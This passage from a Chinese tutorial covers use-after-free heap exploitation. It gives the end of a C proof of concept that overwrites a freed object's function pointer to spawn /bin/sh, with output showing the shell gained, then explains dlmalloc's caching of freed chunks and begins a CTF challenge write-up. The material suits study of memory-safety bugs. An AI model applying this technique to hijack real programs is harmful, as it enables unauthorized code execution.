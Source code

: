 		printf("malloc addr: %pn",p2);

		printf("malloc addr: %pn",p1);//p2与p1指针指向的内存为同一地址

		p2[3]=evil_fuc; //在这里将p1指针里面保存的echo函数指针覆盖成为了evil_func指针.

		p1[3]("/bin/sh");

		return 0;

	}

运行一下，拿到shell

	malloc addr: 0x556acd480260

	hello world

	hello again

	malloc addr: 0x556acd480260

	malloc addr: 0x556acd480260

	$ ls

	a.py c.py exp.c main.py peda-session-main.txt reserve

	core exp main peda-session-exp.txt pwn vmware-tools-distrib

## **原因**

原因就是：应用程序调用free()释放内存时，如果内存块小于256kb，dlmalloc并不马上将内存块释放回内存，而是将内存块标记为空闲状态。这么做的原因有两个：一是内存块不一定能马上释放会内核（比如内存块不是位于堆顶端），二是供应用程序下次申请内存使用（这是主要原因）。当dlmalloc中空闲内存量达到一定值时dlmalloc才将空闲内存释放会内核。如果应用程序申请的内存大于256kb，dlmalloc调用mmap()向内核申请一块内存，返回返还给应用程序使用。如果应用程序释放的内存大于256kb，dlmalloc马上调用munmap()释放内存。dlmalloc不会缓存大于256kb的内存块，因为这样的内存块太大了，最好不要长期占用这么大的内存资源。

# **例题**


## **安恒杯二月月赛hackmoon**

先查保护

	Canary : Yes

	NX : Yes

	PIE : No

	Fortify : No

	RelRO : Partial

扔到ida里面

	int __cdecl __noreturn main(int argc, const char **argv, const char **envp)

	{
